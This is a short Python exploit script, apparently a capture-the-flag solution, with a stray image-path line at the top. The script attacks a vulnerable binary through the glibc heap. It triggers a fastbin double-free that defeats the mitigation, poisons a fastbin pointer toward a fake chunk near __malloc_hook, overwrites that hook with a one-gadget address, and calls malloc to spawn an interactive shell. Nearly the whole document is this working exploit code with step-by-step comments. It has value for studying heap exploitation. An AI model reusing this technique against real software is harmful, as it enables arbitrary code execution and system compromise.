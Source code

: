 ```python

info_user(age, username)

# Request two chunks with size 0x70.
# The most-significant byte of the _IO_wide_data_0 vtable pointer (0x7f) is used later as a size field.
# The "dup" chunk will be duplicated, the "safety" chunk is used to bypass the fastbins double-free mitigation.
dup = malloc(0x68, b'A'*8, b'A'*8)
safety = malloc(0x68, b'B'*8, b'B'*8)

# Request a 3rd "spirit" chunk of any size, leverage the stack overflow to overwrite the pointer to this chunk
# with the address of the "dup" chunk.
spirit = malloc(0x18, b'C'*8, b'C'*8 + p64(heap + 0x10))

# Coerce a double-free by freeing the "dup" chunk, then the "safety" chunk, then the "spirit" chunk.
# This way the "dup" chunk is not at the head of the 0x70 fastbin when it is freed for the second time,
# bypassing the fastbins double-free mitigation.
free(dup)
free(safety)
free(spirit)

# The next request for a 0x70-sized chunk will be serviced by the "dup" chunk.
# Request it, then overwrite its fastbin fd, pointing it to the fake chunk near the malloc hook,
# specifically where the 0x7f byte of the _IO_wide_data_0 vtable pointer will form the
# least-significant byte of the size field.
malloc(0x68, p64(libc.sym['__malloc_hook'] - 0x23), b"C"*8)

# Make two more requests for 0x70-sized chunks. The "safety" chunk, then the "dup" chunk are allocated to
# service these requests.
malloc(0x68, b'D'*8, b'D'*8)
malloc(0x68, b'E'*8, b'E'*8)

# The next request for a 0x70-sized chunk is serviced by the fake chunk near the malloc hook.
# Use it to overwrite the malloc hook with the address of a one-gadget.
malloc(0x68, b'X'*0x13 + p64(libc.address + 0xe1fa1), b"F"*8) # [rsp+0x50] == NULL

# The next call to malloc() will instead call the one-gadget and drop a shell.
# The argument to malloc() is irrelevant, as long as it passes the program's size check.
malloc(1, b"", b"")

# =============================================================================

io.interactive()
```

